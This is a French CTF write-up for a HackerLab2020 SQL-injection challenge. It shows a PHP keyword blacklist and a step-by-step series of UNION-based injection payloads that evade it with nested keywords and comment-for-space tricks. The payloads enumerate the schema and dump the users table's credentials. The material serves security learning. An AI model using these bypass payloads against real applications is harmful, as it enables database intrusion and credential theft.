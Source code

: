 # HackerLab2020 - Challenge 1

## Challenge
>COVID_INJECTION
Les listes noires, c'est pas la meilleure option contre les "covid_injection".
L'ANSSI l'a toujours répété aux développeurs. Blacklister les simples et doubles apostrophes ne >protège pas contre le "covid_injection".
Montre à ces développeurs qu'ils ont tort de ne pas suivre les directives.

## Solution
Primo, nous avons pris connaissance du code source de l'application mis à notre disposition
```php
<?php
if (isset($_GET['source'])) {
    die(highlight_file(__FILE__));
}

require("conf/vuln.conf.php");
error_reporting(0);

if (isset($_GET['q'])) {
    $covid_vaccine = array('union', 'select', 'or', 'from', 'where');
    foreach ($covid_vaccine as $banned) {
        $_GET['q'] = preg_replace('/' . $banned . '/i', '', $_GET['q']);
    }
    if (strpos($_GET['q'], " ") !== false) die("covid_injection détecté");
}

?>
```
Nous remarquons que pour réussir ce challenge, nous devons faire de telle sorte que les mots clés *union*, *select*, *or*, *from*, *where* et  l'espace _" "_ échapperont au control des fonctions *preg_replace* et *strpos*

Ainsi, nous avons effectué plusieurs requêtes SQL avant d'atteindre le but.

Premier payload: ```'OORROR(1=1)OORROR'a'='```
Rendu:
![Rendu](Images/First-payload.png)

Le rendu ne nous révèle aucun flag. On a agit donc autrement à travers les étapes ci-après:

* **Identification des colonnes vulnérables**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,3,4/**/#```
Rendu:
![Rendu](Images/vuln-columns.png)
On peut donc retenir que les colonnes 2, 3 et 4 sont vulnérables.

* **Identification de la version de SQL**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,222,version(),444/**/#```
Rendu:
![Rendu](Images/sql-version.png)
La version du SQL est donc _8.0.1-dmr_

* **Identification du nom de la base de données**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,222,version(),database()/**/#```
Rendu:
![Rendu](Images/database-name.png)
Nom de la base de données: covid_injection

* **Identification les tables de la base de données**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,group_concat(table_name),4/**/frfromom/**/infoorrmation_schema.tables/**/whwhereere/**/table_schema=database()/**/#```

Rendu;
![Rendu](Images/tables-name.png)
Nous découvrons par là une autre nouvelle table dont on n\'avait pas connaissance qu'est _users_

* **Identification des colonnes de la table _users_**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,group_concat(column_name),4/**/frfromom/**/infoorrmation_schema.columns/**/whwhereere/**/table_schema=database()/**/and/**/table_name='users'/**/#```

Rendu:
![Rendu](Images/column_name.png)
Nous pouvons remarquer qu'en dehors des colonnes de la table _hack_hackerlab_ , nous d'autres colonnes qui sont pour la table users.

* **Affichage du contenu de la table _users_**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,group_concat(id89l,passwoorrd,username),4/**/frfromom/**/users/**/#```
![Rendu](Images/flag.png)
Nous obtenons ainsi le flag
```
FLAG: CTF_Y0uAreAwas0m3_b__t___es
```
Cependant nous avons le début d'une clé publique. L'intégralité de la clé ne s'est pas affichéé à cause de la limite de la fonction _group_concat_. Alors nous sommes obligés de modifier notre requête.

Nouveau Payload: ```inspiv'/**/uniunionon/**/all/**/seleselectct/**/1,passwoORrd,222,username/**/frfromom/**/users/**/#```
![Rendu](Images/complete.png)
